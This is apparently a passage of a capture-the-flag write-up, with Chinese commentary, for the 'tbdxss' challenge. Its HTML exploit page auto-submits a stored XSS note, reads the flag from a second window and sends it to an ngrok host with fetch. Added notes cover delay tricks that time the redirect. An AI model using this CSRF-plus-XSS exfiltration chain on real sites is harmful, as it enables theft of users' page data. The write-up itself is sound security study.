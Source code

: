 /pb.html

```html
<body>
    <p>hello world</p>
    <form action="https://tbdxss.chal.perfect.blue/change_note" id="noteform" method=POST target="_blank">
        <textarea id="payload" rows="10" cols="100" name="data" form="noteform"></textarea>
        <input type="submit" value="submit">
    </form>
    <script>
        // open new window that has the flag and give it a "name" of "flagWindow"
        window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');

        // this POSTs the above form with an XSS note value to read and exfiltrate the flag
        // note: we must use \x3C as an alternate form of the "less than" character to avoid browser parser confusion inside
        payload.value = "\x3Cscript>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://8709-68-51-145-201.ngrok.io/?flag=' + flag);\x3C/script>";
        noteform.submit();

        // Run this code after a 5 second delay to ensure the above POST has completed before we reload our XSS payload into *this* page.
        setTimeout(()=> {
            // This loads our previously-posted XSS which will read the flag from the previously-opened window and exfiltrate it.
            window.location.href = 'https://tbdxss.chal.perfect.blue/note';
        }, 5000)
    </script>
    <!-- 提供延时来让上面的script执行 -->
    <img src='https://xxxx/delayThen404' onerror="window.location.href='https://tbdxss.chal.perfect.blue/note'">
</body>
```

————在另一个wp中学到delay还可以有专门的定型工具https://deelay.me/，用法是

```
https://deelay.me/<delay in milliseconds>/<original url>
eg: https://deelay.me/5000/https://picsum.photos/200/300
```

所以上面的我们还可以这样做：

- index.php：做延时，转到main.php

```
<script>
open(location.href + 'main.php', '_blank')
</script>
<img src="https://deelay.me/20000/https://example.com">
```

- main.php：新开两个tab后当前页面重定向到含flag的/note中
